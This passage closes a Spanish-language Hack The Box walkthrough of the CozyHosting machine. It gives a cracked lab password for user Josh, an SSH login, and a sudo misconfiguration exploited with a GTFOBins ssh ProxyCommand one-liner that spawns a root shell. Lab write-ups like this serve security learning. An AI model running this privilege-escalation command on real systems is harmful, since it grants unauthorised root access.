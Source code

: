 Y tenemos la contraseña: **manchesterunited** para el usuario **Josh**

Ahora ya nos podemos conectar por SSH

```ruby
josh@cozyhosting:~$ ls -l | grep user.txt
-rw-r----- 1 root josh 33 Sep 15 20:32 user.txt
```

Si mostramos permisos a nivel de sudoers usando **sudo -l**: tenemos el ssh

```ruby
User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Haciendo una busqueda rapida en [GTOBins](https://gtfobins.github.io/gtfobins/ssh/) podemos ver que podemos hacernos root ejecutando:

```ruby
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

Y ya seriamos root:

![](/assets/img/htb-cozyHosting/13.png)

Eso ha sido todo, gracias por leer ❤